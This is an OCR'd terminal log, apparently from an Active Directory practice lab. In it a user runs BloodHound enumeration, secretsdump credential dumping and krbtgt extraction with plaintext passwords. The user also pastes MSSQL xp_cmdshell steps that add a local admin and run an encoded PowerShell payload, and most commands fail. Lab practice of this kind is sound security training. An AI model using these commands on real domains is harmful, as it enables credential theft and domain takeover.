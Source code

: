 

(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# bloodhound-python -d north.sevenkingdoms.local -u jon.snow -p iknownothing -ns 192.168.20.11 -c All --zip

# Falls weitere Credentials verfügbar
bloodhound-python -d sevenkingdoms.local -u administrator -p recovered_password -ns 192.168.20.10 -c All --zip
bloodhound-python -d essos.local -u administrator -p recovered_password -ns 192.168.20.12 -c All --zip
bloodhound-python: Befehl nicht gefunden.
bloodhound-python: Befehl nicht gefunden.
bloodhound-python: Befehl nicht gefunden.
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# ecretsdump.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11 -just-dc

# Falls erfolgreich: Vollständige Credential-Extraktion
secretsdump.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11 -outputfile north_domain_secrets
ecretsdump.py: Befehl nicht gefunden.
/home/tala/myenv/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# impacket-mssqlclient -windows-auth north.sevenkingdoms.local/sql_svc:cracked_password@192.168.20.22
impacket-mssqlclient: Befehl nicht gefunden.
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

-- Als SYSTEM ausführen (SQL Server-Kontext)
EXEC xp_cmdshell 'whoami';

-- Lokale Admin-Rechte hinzufügen
EXEC xp_cmdshell 'net localgroup administrators "north\jon.snow" /add';

-- PowerShell für weitere Exploitation
EXEC xp_cmdshell 'powershell.exe -enc <base64_encoded_payload>';
EXEC: Befehl nicht gefunden.
RECONFIGURE: Befehl nicht gefunden.
EXEC: Befehl nicht gefunden.
RECONFIGURE: Befehl nicht gefunden.
bash: Syntaxfehler beim unerwarteten Wort »(«
EXEC: Befehl nicht gefunden.
--: Befehl nicht gefunden.
EXEC: Befehl nicht gefunden.
--: Befehl nicht gefunden.
EXEC: Befehl nicht gefunden.
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# secretsdump.py -just-dc-user krbtgt north.sevenkingdoms.local/administrator:password@192.168.20.11